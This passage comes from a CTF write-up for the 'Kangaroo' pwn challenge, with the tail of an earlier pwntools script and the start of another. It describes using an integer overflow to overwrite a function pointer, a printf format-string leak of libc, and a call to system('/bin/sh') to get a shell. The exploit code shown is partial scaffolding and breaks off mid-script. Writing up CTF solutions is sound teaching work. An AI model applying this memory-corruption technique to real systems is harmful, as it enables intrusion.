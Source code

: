 ```py
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data


sl(b"root")
sl(b"\0")


shell()
```


## Kangaroo
<secondary-label ref="user"/>
<secondary-label ref="rce"/>

There is an obvious Integer Overflow. After calculation, the index
```Py
-256204778801521543
```
results in an offset of 520. Therefore, the function pointer after `g_message` can be overwritten.

No win function is provided, so we need to perform a libc leak to get a shell.
I changed the function pointer to `printf@plt` to cause a format string bug and leak libc.

After the libc leak, I put the address of system into the function pointer, placed `/bin/sh\0` in `g_messages`, and then called the function pointer to get a shell :happy:

Unfortunately, since writerside occurred the error, fsb payload deleted from the payload.
Full payload now be public on my gist:

[](https://gist.github.com/Yayoi-cs/94d97f8c1dca4f68177f6b0ec34620c0)

```py

from pwn import *
import sys

e = ELF("kangaroo_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 54223"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    set max-visualize-chunk-size 0x300
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
```